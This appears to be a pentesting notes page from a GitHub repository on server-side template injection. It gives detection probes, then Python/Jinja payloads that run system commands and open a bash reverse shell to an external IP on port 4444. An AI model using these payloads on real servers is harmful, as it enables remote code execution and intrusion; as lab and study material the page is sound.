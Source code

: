# Plaintext Context SSTI.
## Detection.
The first task we have to do to detect a SSTI vulnerability is to check which is the template that is being used by the server. After that we have two possible ways:
- We extract the server template so we know exactly the programming lenguaje that is being used by the server.
- We have to try the next expressions to realize which one of them are interpreted so we can exactly know which programming lenguage we have to use to deploy our payload.
```javascript
{{7*7}} 
${{7*7}} 
${7*7} 
#{7*7} 
<%= 7*7 %>
```
### Case 1:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/86a348ed-e521-412d-8e41-3a0b3877dce6" width="600"><br />
### Case 2: 
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/bde33c1d-911c-43da-ae03-ddd2b46bdce1" width="500">
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/a9136b41-09cb-48fd-bc6d-40848bad3d96" width="500">

After that we can check some resources as 1- [PayloadsAllTheThings-SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) or 2- [Hacktricks-SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) to obtain a good payload to use in the target server.

## Payload examples.
Here are some payload examples that in my experience usually work, however, they sometimes may not work properly so we have to check the previous resources to see if we can obtain a useful payload.
### Python.
#### Executing a command:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
#### Obtaining a shell:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.16.26/4444 0>&1" ').read() }}
```
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/a6610bf1-9f80-454c-9099-3adee2423d49" width="600">
![6](https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/0bbe557f-a638-43fe-ac61-b39e563d3e83)



